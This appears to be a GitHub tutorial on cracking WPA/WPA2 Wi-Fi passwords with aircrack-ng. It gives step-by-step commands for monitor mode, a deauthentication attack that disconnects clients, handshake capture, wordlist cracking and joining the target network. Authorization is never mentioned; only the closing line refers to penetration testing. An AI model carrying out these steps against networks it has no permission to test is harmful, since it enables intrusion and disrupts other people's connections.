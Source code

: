 ## Step 1: Set Up Your Wireless Interface
Before starting any attack, you need to put your wireless network interface card (NIC) into **monitor mode**. This mode allows the card to capture and inject packets.

### 1.1. Enable Monitor Mode using Airmon-ng
1. First, open a terminal and list your network interfaces:
   ```bash
   iwconfig
```

2. Put your wireless interface into monitor mode using **Airmon-ng**:
    
    ```bash
    sudo airmon-ng start wlan0
    ```
    
3. Verify that your interface is now in monitor mode (e.g., `wlan0mon`):
    
    ```bash
    iwconfig
    ```
    

{picture: Insert image of command output showing interface in monitor mode}

## Step 2: Start Capturing Packets with Airodump-ng

Now, you need to start scanning for nearby networks using **Airodump-ng**. This will allow you to find the target network and gather information about it.

### 2.1. Start Airodump-ng

1. Run **Airodump-ng** on your monitor interface:
    
    ```bash
    sudo airodump-ng wlan0mon
    ```
    
2. Airodump-ng will list all the available wireless networks, showing important details like the **SSID**, **BSSID** (MAC address of the access point), **Channel**, **Encryption Type**, and **Number of Clients**.
    

{picture: Insert image of Airodump-ng output showing network details}

### 2.2. Focus on a Specific Target Network

To focus on a specific network, note down the **BSSID** (MAC address of the access point) and the **Channel** number of your target network.

Use the following command to target a specific network:

```bash
sudo airodump-ng --bssid [Target_BSSID] -c [Target_Channel] wlan0mon
```

- Replace `[Target_BSSID]` with the BSSID of the target AP.
- Replace `[Target_Channel]` with the channel number of the AP.

{picture: Insert image showing filtered scan of a target network in Airodump-ng}

## Step 3: Capture WPA Handshake

To crack WPA/WPA2 encryption, you need to capture the WPA handshake. This handshake is exchanged between the client and the AP when a client connects to the network.

### 3.1. Wait for a Client to Reconnect

You can either wait for a client to reconnect to the AP, or you can force a disconnection using **Aireplay-ng**.

{picture: Insert image showing the capture of a WPA handshake in Airodump-ng}

### 3.2. Capture Handshake

Once a client reconnects to the AP, you will see the following message in the Airodump-ng output:

```
[ WPA handshake: XX:XX:XX:XX:XX:XX ]
```

This indicates that the WPA handshake has been successfully captured.

## Step 4: Perform a Deauthentication Attack Using Aireplay-ng

If no clients are actively connecting to the network, you can perform a **deauthentication attack** to force a client to disconnect and reconnect to the AP, thereby capturing the handshake.

### 4.1. Start the Deauthentication Attack

Use **Aireplay-ng** to send deauthentication packets to the AP and target client:

```bash
sudo aireplay-ng -0 10 -a [Target_AP_BSSID] -c [Target_Client_MAC] wlan0mon
```

- `-0` specifies the deauthentication attack.
- `10` is the number of deauthentication frames to send.
- `-a [Target_AP_BSSID]` specifies the BSSID of the target access point.
- `-c [Target_Client_MAC]` specifies the MAC address of a connected client.

{picture: Insert image showing terminal output of deauthentication attack}

### 4.2. Capture the Handshake After Deauthentication

After sending the deauthentication packets, the client will disconnect and attempt to reconnect. This process will trigger the handshake exchange, and Airodump-ng will capture it.

{picture: Insert image showing WPA handshake captured after deauthentication attack}

## Step 5: Crack the WPA Handshake

Once you have captured the WPA handshake, the next step is to crack the password using tools like **Aircrack-ng** or **Hashcat**.

### 5.1. Crack the Handshake with Aircrack-ng

Use the following command to attempt cracking the WPA password:

```bash
aircrack-ng capture_file.cap -w /path/to/wordlist.txt
```

- Replace `capture_file.cap` with the filename of the capture file containing the WPA handshake.
- Replace `/path/to/wordlist.txt` with the path to your wordlist for brute-force cracking.

{picture: Insert image showing Aircrack-ng running with WPA handshake and wordlist}

### 5.2. Wait for Cracking to Complete

If the password is in the wordlist, **Aircrack-ng** will successfully crack the WPA password and display it in the terminal:

```
[ WPA ] Found WPA2 PSK: [Password]
```

{picture: Insert image showing successful WPA password cracking output from Aircrack-ng}

## Step 6: Access the Network

Once the WPA password is cracked, you can use it to connect to the target Wi-Fi network.

### 6.1. Connect to the Target Network

Use the following command to connect to the network:

```bash
nmcli dev wifi connect [Target_SSID] password [Password]
```

- Replace `[Target_SSID]` with the name of the target network.
- Replace `[Password]` with the cracked WPA password.

{picture: Insert image showing successful Wi-Fi connection with the cracked password}

---

## Conclusion

You have successfully used **Airodump-ng** and **Aireplay-ng** to capture a WPA handshake, perform a deauthentication attack, and crack the WPA password. This process is a fundamental technique used in penetration testing and Wi-Fi network security assessments.
